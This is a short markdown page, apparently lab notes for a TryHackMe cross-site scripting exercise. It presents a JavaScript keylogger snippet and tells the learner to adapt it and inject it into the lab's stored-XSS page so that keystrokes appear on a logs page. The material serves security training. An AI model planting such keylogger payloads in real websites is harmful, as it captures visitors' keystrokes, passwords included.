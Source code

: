 # Key-Logger with XSS

- **Javascript** can be used for many things, including creating an event to listen for keypresses.
- Sample Key-Logger

  ```js
  <script type="text/javascript">
    let l = ""; 
    document.onkeypress = function (e) 
    { 
      l += e.key; 
      console.log(l); 
    }
  </script>
  ```
- [View above script with explanation](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/09%20-%20Key-Logger%20with%20XSS/1.%20Key-Logger.js)

- Now you have this script, can you adapt it and post it into the ***[stored xss](http://IP_ADDRESS_OF_TRYHACKME_LAB/stored)*** page. Then start typing on that page and see it appear on the ***[logs](http://IP_ADDRESS_OF_TRYHACKME_LAB/logs)*** page.

